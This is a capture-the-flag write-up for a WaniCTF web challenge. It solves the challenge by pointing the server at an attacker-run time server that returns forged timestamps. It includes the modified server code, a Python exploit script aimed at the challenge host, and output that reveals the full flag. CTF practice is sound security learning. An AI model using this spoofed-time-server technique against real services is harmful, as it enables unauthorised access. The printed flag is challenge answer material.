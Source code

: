 ```yaml
---
ai_date: 2025-04-27 05:24:09
ai_summary: Web challenge exploiting timing difference in server's time handling, solved by setting up a custom time server
ai_tags:
  - time
  - http-hdr
  - rce
created: 2024-06-22T17:30
points: 190
solves: 105
updated: 2025-07-14T09:46
---
```


I went on a large tangent searching for ways to crack the ECC and DSS.

Then I realised that this is a web challenge.

The true solution is to setup my own time server, and just tell the server, to use my own time server.

On my own server, the code has also been altered to allow custom time.

```python
if 'time' in self.path:
	time_query = self.path.split('=')[1]
	timestamp = str(int(time_query)).encode('utf-8')
else:
	timestamp = str(int(time.time())).encode('utf-8')
```

```python
import requests
txt = []
for i in range(12):
    req = requests.get("https://my.server?time=" + str(i*60*60*24+1719090812))
    json_data = req.json()
    json_data["timeserver"] = "my.server"
    response = requests.post("https://web-one-day-one-letter-content-lz56g6.wanictf.org/", json=json_data)
    txt.append(response.text.split("\n")[1])
    txt = [list(row) for row in txt]
    transposed_txt = list(map(list, zip(*txt)))
    print(''.join([next((c for c in l if c!='?'), '?') for l in transposed_txt]))
```

```
<p>Flag is FLAG{l???????????}.</p>
<p>Flag is FLAG{ly??????????}.</p>
<p>Flag is FLAG{lyi?????????}.</p>
<p>Flag is FLAG{lyin????????}.</p>
<p>Flag is FLAG{lying???????}.</p>
<p>Flag is FLAG{lyingt??????}.</p>
<p>Flag is FLAG{lyingth?????}.</p>
<p>Flag is FLAG{lyingthe????}.</p>
<p>Flag is FLAG{lyingthet???}.</p>
<p>Flag is FLAG{lyingtheti??}.</p>
<p>Flag is FLAG{lyingthetim?}.</p>
<p>Flag is FLAG{lyingthetime}.</p>
```